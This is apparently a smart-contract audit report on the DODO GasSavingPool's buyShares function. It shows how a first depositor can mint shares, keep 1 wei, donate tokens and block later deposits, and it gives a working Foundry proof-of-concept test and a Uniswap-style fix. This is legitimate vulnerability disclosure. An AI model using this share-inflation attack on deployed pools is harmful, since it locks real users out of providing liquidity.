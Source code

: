 Suave Jetblack Kookaburra

medium

# Share Price Inflation by First LP-er, Enabling DOS Attacks on Subsequent buyShares with Up to 1001x the Attacking Cost

## Summary
The smart contract contains a critical vulnerability that allows a malicious actor to manipulate the share price during the initialization of the liquidity pool, potentially leading to a DOS attack on subsequent buyShares operations.

## Vulnerability Detail
The root cause of the vulnerability lies in the initialization process of the liquidity pool, specifically in the calculation of shares during the first deposit.
```solidity
// Findings are labeled with '<= FOUND'
// File: dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol
31:    function buyShares(address to)
        ...
57:            // case 1. initial supply
58:            // The shares will be minted to user
59:            shares = quoteBalance < DecimalMath.mulFloor(baseBalance, _I_) // <= FOUND
60:                ? DecimalMath.divFloor(quoteBalance, _I_)
61:                : baseBalance; // @audit-info mint shares based on min balance(base, quote)
62:            // The target will be updated
63:            _BASE_TARGET_ = uint112(shares);
            ...
82:    }
```

If the pool is empty, the smart contract directly sets the share value based on the minimium value of the base token  denominated value of the provided assets. This assumption can be manipulated by a malicious actor during the first deposit, leading to a situation where the LP pool token becomes extremely expensive.

### Attack Scenario
The attacker exploits the vulnerability during the initialization of the liquidity pool:

1. The attacker mints 1001 shares during the first deposit.

2. Immediately, the attacker sells back 1000 shares, ensuring to keep 1 wei via the `sellShares` function.

3. The attacker then donates a large amount (1000e18) of base and quote tokens and invokes the `sync()` routine to pump the base and quote reserves to 1001 + 1000e18.

4. The protocol users proceed to execute the `buyShares` function with a balance less than `attacker's spending * 1001`. The transaction reverts due to the `mintRatio` being kept below 1001 wad and the computed `shares` less than 1001 (line 71), while it needs a value >= 1001 to mint shares successfully.
```solidity
// File: dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol
31:    function buyShares(address to)
        ...
66:            // case 2. normal case
67:            uint256 baseInputRatio = DecimalMath.divFloor(baseInput, baseReserve);
68:            uint256 quoteInputRatio = DecimalMath.divFloor(quoteInput, quoteReserve);
69:            uint256 mintRatio = quoteInputRatio < baseInputRatio ? quoteInputRatio : baseInputRatio; // <= FOUND: mintRatio below 1001wad if input amount smaller than reserves * 1001
70:            // The shares will be minted to user
71:            shares = DecimalMath.mulFloor(totalSupply, mintRatio); // <= FOUND: the manipulated totalSupply of 1wei requires a mintRatio of greater than 1000 for a successful _mint()
            ...
82:    }
// File: dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPVault.sol
294:    function _mint(address user, uint256 value) internal {
295:        require(value > 1000, "MINT_AMOUNT_NOT_ENOUGH"); // <= FOUND: next buyShares with volume less than 1001 x attacker balance will revert here
...
300:    }
```

5. The `_mint()` function fails with a "MINT_AMOUNT_NOT_ENOUGH" error, causing a denial-of-service condition for subsequent buyShares operations.

### POC
Apply the POC to `dodo-gassaving-pool/test/GPSTrader.t.sol` and run with `cd dodo-gassaving-pool && forge test --fork-url "https://rpc.flashbots.net" -vvv --mt test_mint1weiShares_DOSx1000DonationVolume` to check the result.

```solidity
// File: dodo-gassaving-pool/test/GPSTrader.t.sol
    function test_mint1weiShares_DOSx1000DonationVolume() public {
        GSP gspTest = new GSP();
        gspTest.init(
            MAINTAINER,
            address(mockBaseToken),
            address(mockQuoteToken),
            0,
            0,
            1000000,
            500000000000000,
            false
        );

        // Buy 1001 shares
        vm.startPrank(USER);
        mockBaseToken.transfer(address(gspTest), 1001);
        mockQuoteToken.transfer(address(gspTest), 1001 * gspTest._I_() / 1e18);
        gspTest.buyShares(USER);
        assertEq(gspTest.balanceOf(USER), 1001);

        // User sells shares and keep ONLY 1wei
        gspTest.sellShares(1000, USER, 0, 0, "", block.timestamp);
        assertEq(gspTest.balanceOf(USER), 1);

        // User donate a huge amount of base & quote tokens to inflate the share price
        uint256 donationAmount = 1000e18;
        mockBaseToken.transfer(address(gspTest), donationAmount);
        mockQuoteToken.transfer(address(gspTest), donationAmount * gspTest._I_() / 1e18);
        gspTest.sync();
        vm.stopPrank();

        // DOS subsequent operations with roughly 1001 x donation volume
        uint256 dosAmount = donationAmount * 1001;
        mockBaseToken.mint(OTHER, type(uint256).max);
        mockQuoteToken.mint(OTHER, type(uint256).max);

        vm.startPrank(OTHER);
        mockBaseToken.transfer(address(gspTest), dosAmount);
        mockQuoteToken.transfer(address(gspTest), dosAmount * gspTest._I_() / 1e18);

        vm.expectRevert("MINT_AMOUNT_NOT_ENOUGH");
        gspTest.buyShares(OTHER);
        vm.stopPrank();
    }
```

A PASS result would confirm that any deposits with volume less than 1001 times to attacker cost would fail. That means by spending $1000, the attacker can DOS any transaction with volume below $1001,000.


## Impact
The impact of this vulnerability is severe, as it allows an attacker to conduct DOS attacks on buyShares with a low attacking cost (retrievable for further attacks via `sellShares`). This significantly impairs the core functionality of the protocol, potentially preventing further LP operations and hindering the protocol's ability to attract Total Value Locked (TVL) for other trading operations such as sellBase, sellQuote and flashloan.

## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L56-L65

## Tool used
Foundry test

## Recommendation
A mechanism should be implemented to handle the case of zero totalSupply during initialization. A potential solution is inspired by [Uniswap V2 Core Code](https://github.com/Uniswap/v2-core/blob/ee547b17853e71ed4e0101ccfd52e70d5acded58/contracts/UniswapV2Pair.sol#L119-L124), which sends the first 1001 LP tokens to the zero address. This way, it's extremely costly to inflate the share price as much as 1001 times on the first deposit.

```patch
// File: dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol
31:    function buyShares(address to)
        ...
56:        if (totalSupply == 0) {
57:            // case 1. initial supply
58:            // The shares will be minted to user
59:            shares = quoteBalance < DecimalMath.mulFloor(baseBalance, _I_)
60:                ? DecimalMath.divFloor(quoteBalance, _I_)
61:                : baseBalance; 
+             _mint(address(0), 1001); // permanently lock the first MINIMUM_LIQUIDITY of 1001 tokens, makes it imposible to manipulate the totalSupply to 1 wei
...
``` ...
```
